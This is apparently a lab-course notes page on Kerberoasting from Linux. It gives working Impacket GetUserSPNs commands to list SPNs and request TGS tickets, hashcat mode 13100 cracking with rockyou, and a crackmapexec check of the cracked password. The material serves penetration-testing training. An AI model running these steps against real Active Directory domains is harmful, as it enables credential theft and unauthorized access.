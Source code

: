 ```yaml
---
description: It's like roasting marshmallows on a fire... except we're using SPN's instead
---
```


# Kerberoasting - From Linux

## Introduction

Kerberoasting is a <mark style="color:yellow;">lateral movement/privilege escalation technique</mark> in Active Directory environments.

* It should be highly noted that <mark style="color:yellow;">this attack targets Service Princial Names (SPNs) Accounts</mark>

### What do you need to perform this?

* An <mark style="color:yellow;">account's cleartext password or NTLM hash</mark>
* A shell from a domain user
* <mark style="color:yellow;">SYSTEM</mark> level access on a domain-joined account

### Service Accounts

* Domain accounts running services are often local admins
* If not, they are typically highly privileged domain accounts
* Always be sure to identify what privileges are granted across multiple servers and hosts on the domain
* Finding SPNs associated with high privileged accounts in Windows is very common
* Retrieving a Kerberos ticket for an account with a SPN does not by itself allow you to execute commands in the context of that account
* With that said, the TGS-REP or ticket, is encrypted with the NTLM hash&#x20;
  * This means that it can possibly be taken offline and cracked with Hashcat&#x20;

\-----------------------------------------------------------------------------------------------------

## Performing Kerberoasting

This attack can be performed with the following tools:

* Impacket's <mark style="color:yellow;">GetUserSPNs</mark> from a non-domain joined Linux host
* A combination of <mark style="color:yellow;">setspn.exe</mark>, <mark style="color:yellow;">powershell</mark>, and <mark style="color:yellow;">Mimikatz</mark>
* From Windows, we can use <mark style="color:yellow;">PowerView</mark>, <mark style="color:yellow;">Rubeus</mark>, and other PowerShell scripts

### Reality

<mark style="color:yellow;">Obtaining a TGS ticket from a Kerberoast attack will NOT guarantee you a set of valid credentials and the ticket must still be taken offline and cracked with Hashcat to obtain the cleartext password. TGS tickets take longer to crack than NTLM hashes!</mark>

Also, Kerberoasting can be a great way to move laterally or vertically in a domain but it does not guarantee us any level of access.

* There are times where you can perform the attack, retrieve the TGS keys, crack them offline, and we obtain Domain Admin access or obtain credentials that will aid us in our path there!

\-----------------------------------------------------------------------------------------------------

## Kerberoasting with GetUserSPNs

Before we start, we need to make sure that we have the following:

* Valid domain credentials (cleartext or NTLM hash)
* A shell in the context of a domain user, or account such as SYSTEM
* Successfully identify WHICH host is the Domain Controller so we can query it

{% embed url="https://github.com/SecureAuthCorp/impacket" %}
GitHub Repository
{% endembed %}

<mark style="color:yellow;">The best way to start this process is to start gathering a list of SPNs in the domain. To do this, we need a valid set of Domain credentials and the IP of the Domain Controller</mark>

### Listing SPN Accounts with GetUserSPNs

```
GetUserSPNs -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

<figure><img src="../../../.gitbook/assets/image (1) (2) (3).png" alt=""><figcaption></figcaption></figure>

### Requesting all TGS Tickets

```
GetUserSPNs -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request
```

<figure><img src="../../../.gitbook/assets/image (2) (3) (4).png" alt=""><figcaption></figcaption></figure>

### Saving the TGS Ticket to an Output File

```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```

* In this example, we will write the <mark style="color:yellow;">TGS ticket for the sqldev user in a file named sqldev\_tgs</mark>
* We can now crack the ticket offline using Hashcat!
* The Hashcat format is 13100

## Cracking the Ticket Offline with Hashcat

```
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt
```

* We get the password of <mark style="color:yellow;">database!</mark>

## Testing Authentication to a Domain Controller

* Upon successful cracking of the TGS ticket, we can use CrackMapExec (CME) to test our new creds and validate our authentication

```
sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```
